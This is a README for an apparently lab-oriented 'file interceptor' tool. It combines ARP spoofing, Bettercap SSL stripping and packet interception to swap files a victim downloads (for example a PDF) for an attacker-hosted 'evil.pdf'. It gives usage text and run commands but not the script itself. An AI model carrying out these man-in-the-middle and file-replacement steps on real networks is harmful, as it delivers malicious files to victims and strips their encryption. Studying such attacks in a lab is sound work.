 # File interceptor

## Requirements

* Root access
* Python 3
* Scapy and NetfilterQueue modules

## Usage

```shell
usage: file_interceptor.py [-h] [-e EXTENSION] [-d DESTINATION] [-u URL]

File replacement tool (use Bettercap hstshijack/hstshijack for sslstripping)

optional arguments:
  -h, --help            show this help message and exit
  -e EXTENSION, --extension EXTENSION
                        File extension
  -d DESTINATION, --destination DESTINATION
                        sslstrip, forward, or local
  -u URL, --url URL     Replacement url

Example: 
            file_interceptor.py # replace a .pdf with an evil.pdf file in location apache2 server on kali, sslstrip
            file_interceptor.py -e .pdf -u 192.168.122.108/evil/evil.pdf            # replace a .pdf file
            file_interceptor.py -e .pdf -u 192.168.122.108/evil/evil.pdf -d local   # test replacing a .pdf file
                                                                                                                      
```

## Kicking the tyres

* Choose what type of file to replace, and make sure you have a replacement file in /var/www/html/evil/
* Run the [arp_spoofer.py script](/arp_spoofer)

```shell
@kali:~$ sudo python3 arp_spoofer.py
[sudo] password for <user>: 
[+] Setting forward
[+] Packets sent: 63
```
* Run `bettercap` (also see the Troubleshooting section below)

```shell
@kali:~$ sudo bettercap -iface eth0 -caplet hstshijack/hstshijack
```
* Run the `file_interceptor.py` script. Defaults are set to replace a .pdf with an evil.pdf file in the `/var/www/html/evil/` location of the Kali `apache2` server on the Kali VM, and using `sslstrip`.

```shell
@kali:~$ sudo python3 file_interceptor.py 
```
And test file is replaced on Windows machine.

## Troubleshooting

* [ImportError on NetfilterQueue](https://github.com/tymyrddin/ymrir/wiki/netfilterqueue.md)
* [ImportError on Scapy](https://github.com/tymyrddin/ymrir/wiki/scapy.md)
* [Bettercap sslstrip not working](https://github.com/tymyrddin/ymrir/wiki/bettercap.md)
* [Undesired HTTPS redirects](https://github.com/tymyrddin/ymrir/wiki/https-browser.md)
* [Correctly configured HSTS](https://github.com/tymyrddin/ymrir/wiki/hsts.md)